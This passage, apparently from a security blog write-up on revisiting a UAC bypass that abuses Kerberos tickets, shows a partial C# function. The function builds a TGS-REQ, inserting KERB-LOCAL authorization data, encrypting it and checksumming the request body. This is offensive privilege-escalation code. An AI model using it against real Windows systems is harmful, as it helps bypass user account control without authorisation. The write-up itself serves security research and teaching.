 ```c#
	// Optional
    ifrelevant.ADData.Add(kerbLocal);
    // ASN.1 encode the contents of the AD-IF-RELEVANT container
    AsnElt authDataSeq = ifrelevant.Encode();
    // Encapsulate the ASN.1-encoded AD-IF-RELEVANT container into a SEQUENCE type
    authDataSeq = AsnElt.Make(AsnElt.SEQUENCE, authDataSeq);
    // Get the final authorization data byte array
    byte[] authorizationDataBytes = authDataSeq.Encode();
    // Encrypt authorization data to generate enc_authorization_data byte array
    byte[] enc_authorization_data = Crypto.KerberosEncrypt(paEType, Interop.KRB_KEY_USAGE_TGS_REQ_ENC_AUTHOIRZATION_DATA, clientKey, authorizationDataBytes);
    // Assign the encrypted authorization data to the enc_authorization_data field of the KRB_KDC_REQ
    req.req_body.enc_authorization_data = new EncryptedData((Int32)paEType, enc_authorization_data);

    // encode req_body for authenticator cksum
    // Optional
    AsnElt req_Body_ASN = req.req_body.Encode();
    AsnElt req_Body_ASNSeq = AsnElt.Make(AsnElt.SEQUENCE, new[] { req_Body_ASN });
    req_Body_ASNSeq = AsnElt.MakeImplicit(AsnElt.CONTEXT, 4, req_Body_ASNSeq);
    byte[] req_Body_Bytes = req_Body_ASNSeq.CopyValue();
    cksum_Bytes = Crypto.KerberosChecksum(clientKey, req_Body_Bytes, Interop.KERB_CHECKSUM_ALGORITHM.KERB_CHECKSUM_RSA_MD5);
}
```

![image-20230727193455913](/assets/posts/2023-07-29-revisiting-a-uac-bypass-by-abusing-kerberos-tickets/image-20230727193455913.png)
